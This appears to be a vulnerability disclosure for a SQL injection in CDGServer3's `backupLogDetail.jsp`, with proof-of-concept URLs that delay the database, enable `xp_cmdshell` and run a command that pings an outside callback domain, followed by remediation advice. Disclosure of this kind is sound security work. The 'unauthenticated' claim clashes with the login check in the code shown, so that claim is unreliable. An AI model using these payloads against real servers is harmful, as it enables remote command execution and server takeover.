


# Vulnerability Report

## Title: Unauthenticated SQLI Leading to Remote Code Execution (RCE)

### Summary:

A SQL injection vulnerability was discovered in the `backupLogDetail.jsp` endpoint, specifically in the `logTaskId` parameter. This vulnerability allows an unauthenticated attacker to execute arbitrary code on the MSSQL server, potentially gaining full control over the server.

### Affected Endpoint:

`CDGServer3/logManagement/backupLogDetail.jsp`

### Vulnerability Type:

RCE

### Vulnerable Code:

```jsp
<jsp:useBean scope="session" class="com.org.acl.LoginMng" id="loginMng"/>
<%
    if (loginMng == null || !loginMng.isLogin()) {
        response.sendRedirect("../loginExpire.jsp");
        return;
    }
    String flag = request.getParameter("flag");
    //是否为主服务器
    if (MultiServerConfigModel.isMainServer()
            && !MultiServerConfigModel.isLiked(flag)
            && MultiServerConfigModel.isAllowMultiServer()) {
        response.sendRedirect(request.getContextPath() + "/system/multiServersList.jsp?/logManagement/clientLog.jsp");
        return;
    }
    String logTaskId = request.getParameter("logTaskId");
    LogTaskDao logTaskDao = new LogTaskDao();
    LogTaskInfo logTaskInfo = logTaskDao.findLogTaskById(logTaskId);

%>
```

### Proof of Concept (PoC):

1. Time-based SQL Injection:

   ```
   https://uri/CDGServer3/logManagement/backupLogDetail.jsp?logTaskId=1';WAITFOR DELAY '0:0:10'--
   ```

2. Enabling `xp_cmdshell`:

   ```
   https://uri/CDGServer3/logManagement/backupLogDetail.jsp?logTaskId=1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
   ```

3. Executing arbitrary command:

   ```
   https://uri/CDGServer3/logManagement/backupLogDetail.jsp?logTaskId=1';exec master..xp_cmdshell 'ping 27b536b2c9.ipv6.1433.eu.org.'--
   ```



### Impact:

This vulnerability allows an attacker to execute arbitrary commands on the server, which can lead to:

- Complete server compromise.
- Data exfiltration.
- Denial of Service (DoS) by executing resource-intensive commands.
- Potential lateral movement within the internal network.

### Recommendation:

1. **Input Validation and Sanitization:** Ensure that all user inputs are properly sanitized and validated. Use prepared statements with parameterized queries to prevent SQL injection.
2. **Least Privilege Principle:** Ensure the database user has the least privileges necessary for the application to function.
3. **Disable Dangerous Features:** Disable features like `xp_cmdshell` unless absolutely necessary.
4. **Regular Security Audits:** Conduct regular security audits and code reviews to identify and fix vulnerabilities.

### Conclusion:

The RCE in the `backupLogDetail.jsp` endpoint poses a significant security risk. Immediate remediation steps should be taken to sanitize user inputs and secure the database against unauthorized access and code execution.

### References:

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [Mitigation Techniques](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

